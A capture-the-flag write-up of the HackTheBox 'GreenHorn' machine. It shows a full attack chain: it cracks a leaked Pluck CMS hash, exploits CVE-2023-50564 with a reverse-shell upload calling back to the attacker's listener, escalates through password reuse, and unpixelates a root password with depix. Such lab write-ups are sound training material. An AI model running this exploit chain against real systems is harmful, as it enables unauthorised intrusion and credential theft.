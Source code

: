 # GreenHorn - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏GreenHorn.JPG](images/GreenHorn.JPG)
 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, `80`, and `3000`.

***User***: Discovered `pluck` on port `80` and `gitea` on port `3000`. Retrieved `pluck` credentials from the `gitea` repository. Exploited `CVE-2023-50564` to achieve RCE as `www-data`, then reused the `pluck` password to escalate to the `junior` user.

***Root***: Found a PDF containing a pixelated password. Used the `depix` tool to recover the password.

![pwn.JPG](images/pwn.JPG)


## GreenHorn Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn]
└──╼ $ nmap -sV -sC -oA nmap/GreenHorn 10.10.11.25
tarting Nmap 7.93 ( https://nmap.org ) at 2024-10-25 00:24 IDT
Nmap scan report for 10.10.11.25
Host is up (0.077s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57d6928a7244841729eb5cc9636afefd (ECDSA)
|_  256 40ea17b1b6c53f4256674a3cee75232f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:

![port80.JPG](images/port80.JPG)

By inspecting port `3000`, we can observe that the following web page is hosted:

![port3000.JPG](images/port3000.JPG)

Port `3000` is running [Gitea](https://about.gitea.com/) version 1.21.11.

Clicking on the [admin](http://greenhorn.htb/login.php) button on port `80` reveals the following web page:

![pluck.JPG](images/pluck.JPG)

We can see that it is `Pluck CMS` version `4.7.18`.

After registering on `Gitea` via port `3000` and logging in, the `pluck` repository becomes visible at http://greenhorn.htb:3000/GreenAdmin/GreenHorn.:

![pluckrepo.JPG](images/pluckrepo.JPG)

At http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php, we can see the following content:
```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

This file verifies the credentials for `pluck`. Let's crack the hash using `john`:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt -format=Raw-SHA512 hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 128/128 SSE2 2x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou1        (?)
1g 0:00:00:00 DONE (2024-10-25 01:12) 9.090g/s 18618p/s 18618c/s 18618C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we obtain the password `iloveyou1`.

We can exploit `CVE-2023-50564` using the [Proof of Concept](https://github.com/b0ySie7e/Pluck_Cms_4.7.18_RCE_Exploit) to achieve RCE as follows:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn/Pluck_Cms_4.7.18_RCE_Exploit]
└──╼ $ python3 exploit_pluckv4.7.18_RCE.py --password iloveyou1 --filename shell.php --ip 10.10.14.15 --port 4444 --host http://greenhorn.htb
[+] Creating payload
[+] Overwriting .php file
[+] Creating ZIP file
Login successful
[+] ZIP file uploaded successfully

```

Where `shell.php` is sourced from [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Executing it gives us a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn/Pluck_Cms_4.7.18_RCE_Exploit]
└──╼ $ c -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from greenhorn.htb [10.10.11.25] 52052
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
$ whoami
www-data
$ ls -ltra /home
ls -ltra /home
total 16
drwxr-xr-x  3 junior junior 4096 Jun 20 06:36 junior
drwxr-xr-x  4 root   root   4096 Jun 20 06:36 .
drwxr-x---  2 git    git    4096 Jun 20 06:36 git
drwxr-xr-x 20 root   root   4096 Jun 20 07:06 ..

```

We can reuse the password `iloveyou1` for the user `junior`:
```console
$ su junior
su junior
Password: iloveyou1
cat /home/junior/user.txt
04031b90eb4f9b3ba3a51d512867423f
```

And we get the user flag `04031b90eb4f9b3ba3a51d512867423f`.

### Root

In the `junior` home directory, we can see the following files:
```console
junior@greenhorn:~$ ls -ltra
ls -ltra
total 136
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38  .bash_history -> /dev/null
-rw-r----- 1 root   junior 61367 Jun 11 14:39 'Using OpenVAS.pdf'
drwx------ 2 junior junior  4096 Jun 20 06:36  .cache
drwxr-xr-x 4 root   root    4096 Jun 20 06:36  ..
-rw-r----- 1 root   junior    33 Oct 24 21:22  user.txt
drwxr-xr-x 3 junior junior  4096 Oct 24 22:35  .

```

By downloading the file `Using OpenVAS.pdf`, we can see the following content:

![openvas.JPG](images/openvas.JPG)

We can see the password is hidden:

![openvas.JPG](images/openvas.JPG)

We can use [Depix](https://github.com/spipm/Depix.git) to retrieve the password:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn/]
└──╼ $ python3 depix.py -p password.JPG -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o out.png
2024-10-25 01:56:12,496 - Loading pixelated image from password.JPG
2024-10-25 01:56:12,507 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-10-25 01:56:13,313 - Finding color rectangles from pixelated space
2024-10-25 01:56:13,383 - Found 4166 same color rectangles
2024-10-25 01:56:13,384 - 3566 rectangles left after moot filter
2024-10-25 01:56:13,385 - Found 38 different rectangle sizes
2024-10-25 01:56:13,385 - Finding matches in search image
2024-10-25 01:56:13,386 - Scanning 2698 blocks with size (1, 1)
2024-10-25 01:56:13,926 - Scanning in searchImage: 0/1678
...

```

After a few minutes, we receive the following output:

![depix.JPG](images/depix.JPG)

The password is `sidefromsidetheothersidesidefromsidetheotherside`.

We can use this password for the `root` login:
```console
junior@greenhorn:~$ su
su
Password: sidefromsidetheothersidesidefromsidetheotherside

root@greenhorn:/home/junior# cat /root/root.txt
cat /root/root.txt
cf90613699d94a5902681294e834f388
```

And we get the root flag `cf90613699d94a5902681294e834f388`.